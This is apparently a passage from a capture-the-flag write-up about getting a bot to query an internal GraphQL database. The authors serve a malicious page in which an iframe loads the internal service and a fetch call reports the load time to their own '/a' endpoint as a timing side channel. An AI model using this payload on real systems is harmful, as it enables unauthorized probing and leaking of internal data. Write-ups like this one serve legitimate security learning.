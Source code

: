### Making the bot contact jjk_db
Because in docker-compose.yaml no network is specified, all containers join the default network and can contact each other.

That means the bot can curl `http://jjk_db:9090/?query=...` and launch any query that it wants.

### Getting some data out of the bot call
If our call to `/visit` ask the bot to visit jjk_db, we will not know what happened. The bot visits the URL and that's it.  
So we want the bot to load a malicious page that will contact jjk_db.  
There are multiple ways to do so, for example using an iframe or using a `fetch()` inside a script etc.  
The thing is, whatever the way forward, we are facing CORS issues because our html page comes from a domain which is not jjk_db, and that jjk_db does not provide CORS headers.  
The consequences is that we'll never be able to access any information about the response made to jjk_db. Either the browser forbids the access of the iframe's document property, or using fetch we need to use the "no-cors" move, leading to an [opaque response](https://tpiros.dev/blog/what-is-an-opaque-response/) (actually, we could only do this fetch during some local tests where opened some ports in the docker-compose).

So in the end we used an iframe.  
Regarding the response, as we cannot intercept it nor the content of the iframe, we thought about computing its loading time.  
We can then ask the fetch to fetch our server with a query parameter containing that loading time. We set a dummy endpoint `/a` for that purpose.

Our malicious page looks like:
```html
<html>
  <head></head>
  <body>
    <script type="text/javascript">
      let start = Date.now();

      function onLoad() {
        let dt = (Date.now() - start) / 1000
        fetch('/a?secSpent=' + dt)
      }
    </script>
    <iframe id="frame" src='http://jjk_db:9090/?query=...' onload="onLoad()"></iframe>
  </body>
</html>

```

### Graphql query
Now what's left is to determine the flag based on the response time we got.

#### Understanding the graphql schema
Looking at the code was quite hard to determine what we could actually do in terms of graphql.  
Instead we used the rest client `Insomnia` (btw, their latest version is shit, they now require automatic syncing in the cloud). To handle graphql queries, it contacts the server (open ports locally) to get the full schema and propose autocompletion and error analysis.  
We also used a [generic graphql query]((https://gist.github.com/franzejr/d0a178286d0e23d3ed50999288806068)) to get the full schema.
